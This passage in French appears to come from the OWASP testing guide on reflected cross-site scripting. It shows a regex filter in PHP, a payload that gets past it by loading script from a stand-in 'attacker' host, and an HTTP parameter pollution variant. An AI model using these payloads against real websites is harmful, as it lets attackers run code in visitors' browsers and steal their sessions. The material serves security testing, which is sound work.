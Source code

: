        if (preg_match($re, $_GET['var']))
       {
          echo "Filtered";
          return;
       }
       echo "Welcome ".$_GET['var']." !";
    ?>

Dans ce scénario, il y a une expression rationnelle qui vérifie si
<b>\<script \[caractère quelconque sauf: '\>' \] src</b> est insérée.
Cela fonctionne pour filtrer des expressions telles que

    <script src="http://attacker/xss.js"></script>

qui est une attaque commune. Mais dans ce cas, il est possible de
contourner la validation en utilisant le caractère "\>" dans un attribut
entre script et src, comme cela :

    http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>

Cela va exploiter la faille cross-site scripting montrée plus haut, en
exécutant le code JavaScript stocké sur le serveur web de l'attaquant,
comme s'il venait du site web victime, <http://example/>.

#### Exemple 7: Pollution des paramètres HTTP (HPP)


La pollution de paramètres HTTP est une autre méthode de contournement
des filtres. Cette technique a été présentée par Stefano di Paola et
Luca Carettoni en 2009 à la conférence OWASP de Pologne. Pour plus
d'informations : [Testing for HTTP Parameter
pollution](Testing_for_HTTP_Parameter_pollution_\(OTG-INPVAL-004\) "wikilink").
Cette technique d'évasion consiste en divisant un vecteur d'attaque en
plusieurs paramètres de même nom. La manipulation de la valeur de chaque
paramètre dépend de chaque technologue web utilisée pour les parser, ce
type d'évasion n'est donc pas toujours possible. Si l'environnement
testé concatène les valeurs de tous les paramètres de même nom, alors
un attaquant peut utiliser cette technique pour contourner les
mécanismes de sécurités basés sur la reconnaissance de motifs.
Attaque classique :

    http://example/page.php?param=<script>[...]</script>

Attaque HPP:

    http://example/page.php?param=<script&param=>[...]</&param=script>

''' Résultat attendu '''
Pour une liste plus détaillée des techniques d'évasion de filtrage :
[XSS Filter Evasion Cheat
Sheet](XSS_Filter_Evasion_Cheat_Sheet "wikilink"). L'analyse des
réponses peut devenir complexe. Une méthode simple peut être d'utiliser
du code qui génère un dialogue popup, comme dans notre exemple. Cela
indique typiquement qu'un attaquant peut exécuter du code JavaScript
arbitraire dans le navigateur des visiteurs.

### Test en boite grise
